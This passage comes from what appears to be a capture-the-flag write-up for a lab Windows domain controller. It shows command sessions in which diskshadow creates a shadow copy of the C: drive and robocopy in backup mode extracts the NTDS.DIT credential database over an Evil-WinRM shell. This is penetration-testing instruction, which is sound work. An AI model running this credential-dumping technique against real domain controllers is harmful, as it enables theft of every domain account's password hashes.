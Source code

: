 <br />

Once we've uploaded the file, we run the following `diskshadow` command:

<br />

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> diskshadow /s diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  CICADA-DC,  5/31/2025 7:05:57 PM
...[snip]...
* Shadow copy ID = {d1fcf915-0eb5-4e77-aa41-7fedbed57510}		%cdrive%
		- Shadow copy set: {19cee9ee-6f9b-4963-8bbb-3439f6143c0b}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{fcebaf9b-0000-0000-0000-500600000000}\ [C:\]
		- Creation time: 5/31/2025 7:06:12 PM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
		- Originating machine: CICADA-DC.cicada.htb
		- Service machine: CICADA-DC.cicada.htb
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %cdrive% E:
-> %cdrive% = {d1fcf915-0eb5-4e77-aa41-7fedbed57510}
The shadow copy was successfully exposed as E:\.
-> end backup
->
```

<br />

And we use `Robocopy` to extract a copy of the `NTDS.DIT` file:

<br />

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> robocopy /b E:\Windows\ntds . ntds.dit 

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------
...[snip]...
  0.0%
  0.3%
  0.7%
  1.1%
  1.5%
  1.9%
  2.3%
  2.7%
  3.1%
  3.5%
...[snip]...
 98.8%
 99.2%
 99.6%
100%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
```